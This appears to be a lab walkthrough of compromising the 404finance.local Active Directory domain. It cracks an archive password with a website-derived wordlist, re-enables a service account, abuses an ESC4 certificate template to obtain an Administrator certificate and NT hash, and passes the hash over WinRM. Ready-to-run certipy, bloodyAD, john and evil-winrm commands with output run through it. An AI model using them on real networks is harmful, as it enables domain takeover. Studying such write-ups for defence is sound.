config_backup.zip/config.dat:$zip2$*0*3*0*92c2f1c2a11dc1f2b94b30b646a839e8*630b*83*72330793c353742efa17f23a23d9450d7c7b92668bdc26ac9620ca1c85a1b0a3831df58b88c08acb052d2376b76f17f91e188ae1f45c8800e5123f492a1b8e81808acb682b3d3b2955f84536fc5d4155822caf1aacd4842cad43ddde68d77fcc75d75cf07da744da385bbcd45926cacc15674416b21b63136c6e868ba6b98909c08d39*2a6637d2569b0299f82b*$/zip2$:config.dat:config_backup.zip:config_backup.zip
```

We save it to `john_zip.txt` and try rockyou first.

```
john john_zip.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



*john exhausting the rockyou wordlist against the archive without a result*

No luck. `cewl` crawls a website and builds a wordlist out of the words it finds on the pages. A password chosen from an organisation's own material will not be in rockyou, but it stands a good chance of being somewhere on their site. We crawl the bank's own front end, ten links deep, keeping words that contain numbers.

```
cewl --depth 10 --with-numbers --write cewl.txt http://404finance.local/
```

```
john john_zip.txt --wordlist=cewl.txt
```

```
 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 131 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
DontmessWithTexas (config_backup.zip/config.dat)     
1g 0:00:00:00 DONE (2026-08-26 18:14) 50.00g/s 26000p/s 26000c/s 26000C/s 404..quarter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```



*john recovering DontmessWithTexas from the archive using the wordlist built from the bank's website*

Cracked in under a second against a wordlist the site handed us. We open the archive and read what is inside.

```
7z x -p'DontmessWithTexas' config_backup.zip
```

```
7-Zip 26.02 (x64) : Copyright (c) 1999-2026 Igor Pavlov : 2026-06-25
 64-bit locale=en_US.UTF-8 Threads:128 OPEN_MAX:4096, ASM

Scanning the drive for archives:
1 file, 351 bytes (1 KiB)

Extracting archive: config_backup.zip
--
Path = config_backup.zip
Type = zip
Physical Size = 351

Everything is Ok

Size:       147
Compressed: 351
```

```
cat config.dat
```

```
# Configuration Backup - Do not delete!
[ServiceUser]
username = svc.services
password = S3rv1cePower2024!
host = WIN-SRV01
autostart = true
```



*The config.dat file inside the archive carrying the svc.services password in plaintext*

We test the credentials.

```
nxc smb 10.1.143.161 -u 'svc.services' -p 'S3rv1cePower2024!' --shares
```

```
SMB         10.1.143.161    445    DC-404           [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-404) (domain:404finance.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.143.161    445    DC-404           [-] 404finance.local\svc.services:S3rv1cePower2024! STATUS_ACCOUNT_DISABLED 
```



*NetExec confirming the svc.services password while reporting the account as disabled*

The password is right. NTLM validates the password before it evaluates account restrictions, which is why this comes back `STATUS_ACCOUNT_DISABLED` rather than `STATUS_LOGON_FAILURE`. `robert.graef` holds `WriteAccountRestrictions` over this account, which lets us write the account's attributes, so we go back to that account and clear the `ACCOUNTDISABLE` flag out of `userAccountControl`.

```
bloodyad --host DC-404.404finance.local -d 404finance.local -u robert.graef -p '0xB1rdWasHere1337!' remove uac svc.services -f ACCOUNTDISABLE
```

```
[+] ['ACCOUNTDISABLE'] property flags removed from svc.services's userAccountControl
```



*bloodyAD removing the ACCOUNTDISABLE flag from the svc.services userAccountControl attribute*

We authenticate again.

```
nxc smb 10.1.143.161 -u 'svc.services' -p 'S3rv1cePower2024!' --shares
```

```
SMB         10.1.143.161    445    DC-404           [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-404) (domain:404finance.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.143.161    445    DC-404           [+] 404finance.local\svc.services:S3rv1cePower2024! 
SMB         10.1.143.161    445    DC-404           [*] Enumerated shares
SMB         10.1.143.161    445    DC-404           Share           Permissions     Remark
SMB         10.1.143.161    445    DC-404           -----           -----------     ------
SMB         10.1.143.161    445    DC-404           ADMIN$                          Remote Admin
SMB         10.1.143.161    445    DC-404           C$                              Default share
SMB         10.1.143.161    445    DC-404           IPC$            READ            Remote IPC
SMB         10.1.143.161    445    DC-404           NETLOGON        READ            Logon server share 
SMB         10.1.143.161    445    DC-404           SYSVOL          READ            Logon server share 
```



*Validating svc.services credentials with NetExec*

The account authenticates.

## Certipy Enumeration

The LDAP certificate from our first scan names `404finance-DC-404-CA` as its issuer, so a certificate authority lives on this host, and in BloodHound `svc.services` sits in Certificate Service DCOM Access.



*BloodHound showing svc.services membership in Certificate Service DCOM Access*

That group only grants DCOM access to the CA and a default install puts Authenticated Users in it, so it is not a privilege. What it tells us is that AD CS is deployed here.

```
certipy-ad find -u 'svc.services@404finance.local' -p 'S3rv1cePower2024!' -dc-ip 10.1.143.161 -vulnerable -stdout
```

```
Certificate Authorities
  0
    CA Name                             : 404finance-DC-404-CA
    DNS Name                            : DC-404.404finance.local
    Certificate Subject                 : CN=404finance-DC-404-CA, DC=404finance, DC=local
    Certificate Serial Number           : 49F9F3F512FE1BA84F59D5DAAD071218
    Certificate Validity Start          : 2025-07-03 13:33:46+00:00
    Certificate Validity End            : 2030-07-03 13:43:46+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : 404FINANCE.LOCAL\Administrators
      Access Rights
        ManageCa                        : 404FINANCE.LOCAL\Administrators
                                          404FINANCE.LOCAL\Domain Admins
                                          404FINANCE.LOCAL\Enterprise Admins
        ManageCertificates              : 404FINANCE.LOCAL\Administrators
                                          404FINANCE.LOCAL\Domain Admins
                                          404FINANCE.LOCAL\Enterprise Admins
        Enroll                          : 404FINANCE.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : Vuln-ESC4
    Display Name                        : Vuln-ESC4
    Certificate Authorities             : 404finance-DC-404-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PendAllRequests
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          KDC Authentication
                                          Server Authentication
                                          Smart Card Logon
    Requires Manager Approval           : True
    Requires Key Archival               : False
    Authorized Signatures Required      : 1
    Schema Version                      : 2
    Validity Period                     : 99 years
    Renewal Period                      : 650430 hours
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-07-03T13:38:39+00:00
    Template Last Modified              : 2025-07-03T14:13:19+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : 404FINANCE.LOCAL\Service Account
      Object Control Permissions
        Owner                           : 404FINANCE.LOCAL\Enterprise Admins
        Full Control Principals         : 404FINANCE.LOCAL\Domain Admins
                                          404FINANCE.LOCAL\Local System
                                          404FINANCE.LOCAL\Enterprise Admins
        Write Owner Principals          : 404FINANCE.LOCAL\Service Account
                                          404FINANCE.LOCAL\Domain Admins
                                          404FINANCE.LOCAL\Local System
                                          404FINANCE.LOCAL\Enterprise Admins
        Write Dacl Principals           : 404FINANCE.LOCAL\Service Account
                                          404FINANCE.LOCAL\Domain Admins
                                          404FINANCE.LOCAL\Local System
                                          404FINANCE.LOCAL\Enterprise Admins
        Write Property Enroll           : 404FINANCE.LOCAL\Service Account
    [+] User Enrollable Principals      : 404FINANCE.LOCAL\Service Account
    [+] User ACL Principals             : 404FINANCE.LOCAL\Service Account
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```



*Certipy flagging ESC4 on the Vuln-ESC4 template, with the write and enrollment rights held by svc.services under its display name Service Account*

Certipy flags ESC4 on the `Vuln-ESC4` template. The rights are not inherited from any group: `svc.services` holds `Write Owner`, `Write Dacl`, and `Write Property Enroll` on the template itself, listed under the account's display name `Service Account`. The `User ACL Principals` line is Certipy confirming the account we authenticated with is that principal. The template as it stands is not usable: it requires manager approval and one authorized signature, so a request would sit pending rather than issue.

## Access as Administrator

ESC4 is write access over a certificate template object. Where ESC1 is a template already misconfigured for anyone holding enrollment rights, ESC4 is the right to create that misconfiguration ourselves. Certipy saves the current configuration to a JSON file, then overwrites the template with a default vulnerable one: enrollee supplies subject, a client authentication EKU, no manager approval, and enrollment granted to Authenticated Users.

```
certipy-ad template -u 'svc.services@404finance.local' -p 'S3rv1cePower2024!' -dc-ip '10.1.143.161' -template 'Vuln-ESC4' -write-default-configuration
```

```
[*] Saving current configuration to 'Vuln-ESC4.json'
[*] Wrote current configuration for 'Vuln-ESC4' to 'Vuln-ESC4.json'
[*] Updating certificate template 'Vuln-ESC4'
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9cD\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x000\x00\x02\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x00\x00\x14\x00\x94\x00\x02\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*]     pKIOverlapPeriod: b'\x00\x80\xa6\n\xff\xde\xff\xff'
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     msPKI-RA-Signature: 0
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'Vuln-ESC4'? (y/N): y
[*] Successfully updated 'Vuln-ESC4'
```



*Certipy saving the original template configuration and overwriting Vuln-ESC4 with the default vulnerable one*

Running the same find again confirms the change.

```
certipy-ad find -u 'svc.services@404finance.local' -p 'S3rv1cePower2024!' -dc-ip 10.1.143.161 -vulnerable -stdout
```

```
Certificate Authorities
  0
    CA Name                             : 404finance-DC-404-CA
    DNS Name                            : DC-404.404finance.local
    Certificate Subject                 : CN=404finance-DC-404-CA, DC=404finance, DC=local
    Certificate Serial Number           : 49F9F3F512FE1BA84F59D5DAAD071218
    Certificate Validity Start          : 2025-07-03 13:33:46+00:00
    Certificate Validity End            : 2030-07-03 13:43:46+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : 404FINANCE.LOCAL\Administrators
      Access Rights
        ManageCa                        : 404FINANCE.LOCAL\Administrators
                                          404FINANCE.LOCAL\Domain Admins
                                          404FINANCE.LOCAL\Enterprise Admins
        ManageCertificates              : 404FINANCE.LOCAL\Administrators
                                          404FINANCE.LOCAL\Domain Admins
                                          404FINANCE.LOCAL\Enterprise Admins
        Enroll                          : 404FINANCE.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : Vuln-ESC4
    Display Name                        : Vuln-ESC4
    Certificate Authorities             : 404finance-DC-404-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-07-03T13:38:39+00:00
    Template Last Modified              : 2026-08-26T22:32:16+00:00
    Permissions
      Object Control Permissions
        Owner                           : 404FINANCE.LOCAL\Enterprise Admins
        Full Control Principals         : 404FINANCE.LOCAL\Authenticated Users
        Write Owner Principals          : 404FINANCE.LOCAL\Authenticated Users
        Write Dacl Principals           : 404FINANCE.LOCAL\Authenticated Users
    [+] User Enrollable Principals      : 404FINANCE.LOCAL\Authenticated Users
    [+] User ACL Principals             : 404FINANCE.LOCAL\Authenticated Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
      ESC4                              : User has dangerous permissions.
```



*Certipy now flagging ESC1 on Vuln-ESC4, with manager approval cleared and enrollment open to Authenticated Users*

Manager approval is gone, the signature requirement is gone, and the template is flagged ESC1: the requester can specify an arbitrary identity in the Subject Alternative Name and the template includes a client authentication EKU. We request a certificate naming `Administrator`, then authenticate as that account via PKINIT, the Kerberos extension that lets a certificate stand in for a password. `-sid` puts the target SID in the Subject Alternative Name so a current DC maps the certificate to the right account, and BloodHound has it as the Object ID on the `Administrator` node.

```
certipy-ad req -u 'svc.services@404finance.local' -p 'S3rv1cePower2024!' -dc-ip 10.1.143.161 -dc-host DC-404.404finance.local -ns 10.1.143.161 -ca '404finance-DC-404-CA' -template 'Vuln-ESC4' -upn 'administrator@404finance.local' -sid 'S-1-5-21-2956725473-317782918-2795636496-500'
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[*] Request ID is 7
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@404finance.local'
[*] Certificate object SID is 'S-1-5-21-2956725473-317782918-2795636496-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```



*Certipy requesting a certificate as Administrator through the rewritten template*

The certificate comes back carrying both the UPN and the SID, so we authenticate with it.

```
certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.1.143.161'
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)
[*] Certificate identities:
[*]     SAN UPN: 'administrator@404finance.local'
[*]     SAN URL SID: 'S-1-5-21-2956725473-317782918-2795636496-500'
[*]     Security Extension SID: 'S-1-5-21-2956725473-317782918-2795636496-500'
[*] Using principal: 'administrator@404finance.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@404finance.local': aad3b435b51404eeaad3b435b51404ee:a6019e48da8f602a60c30a6f0136d792
```



*Certipy PKINIT: TGT and NT hash recovered for Administrator*

Certipy gets that hash by requesting a Kerberos ticket to itself and reading the credential blob out of the ticket's PAC.

## Shell as Administrator (root.txt)

NTLM authenticates with the hash itself, so there is nothing left to crack. We pass it over WinRM.

```
evil-winrm -i '10.1.143.161' -u 'administrator' -H 'a6019e48da8f602a60c30a6f0136d792'
```



*Evil-WinRM session on DC-404 as Administrator using the recovered NT hash*

`root.txt` sits on the Administrator desktop and the domain is fully compromised.



*The Evil-WinRM session with root.txt listed on the Administrator desktop*

## Final Thoughts

Every ESC template path I have run before started with someone else's misconfiguration. `Vuln-ESC4` was different: the rights sat on the template object itself, so the misconfiguration was mine to write. The certificate request was the only step that fought me, and it took several attempts before it issued.

The password that started the whole chain shipped inside a public download, hashed but not hidden, and CrackStation undid it in seconds. The next one was shared between staff in a plaintext email, then "deleted" into the recycle bin where it sat waiting for anyone with a session on the box. The archive later on was locked, but its password came straight off the bank's own website. None of these is exotic, and neither is the fix: share credentials through a password manager rather than email, keep secrets off public-facing pages, and put object-level rights on a scheduled audit rather than trusting how they looked at build time. Certificate templates belong in that same audit, because a writable one hands out a certificate for anyone the holder names.

— 0xB1rd
